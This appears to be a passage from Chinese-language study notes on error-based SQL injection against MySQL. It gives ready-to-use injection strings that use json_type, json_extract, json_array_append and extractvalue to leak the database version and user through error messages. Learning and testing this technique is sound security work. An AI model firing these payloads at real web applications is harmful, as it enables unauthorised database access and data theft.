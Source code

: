 * json_type(version())

* 标准payload

  ```
  1' and json_type(version())%23 --+
  ```


###### ②json_extract

* json_extract(json_doc,path[,path])

* 从json_doc中读取数据，和path的参数匹配，第一个或第二个参数不是json格式就报错

  ```
  1' and json_extract(user(),'$.a') -- qwe
  1' and json_extract(user(),'$.a') # 
  
  1' and json_extract('[1,2,3]',user()) -- qwe
  
  ```

###### ③json_array_append

* json_array_append(json_doc,path,val[,path,val]...)，

* 将值**附加**到json文档中**指定数组的末尾**并**返回结果，**

* 报错输出原理和json_extract函数相同

  ```
  1' and json_array_append('[1,2,3]',user(),1) # 
  1' and json_array_append('[1,2,3]',user(),1) -- qwe
  ```

#### (3). 基本步骤

##### a.查看数据库版本

```
1' and extractvalue(1,concat(0x7e,(select version()),0x7e)) --+
```

<img src="../../images/8-20-morning/1. 查看数据库版本.png" alt="1. 查看数据库版本" style="zoom:67%;" />
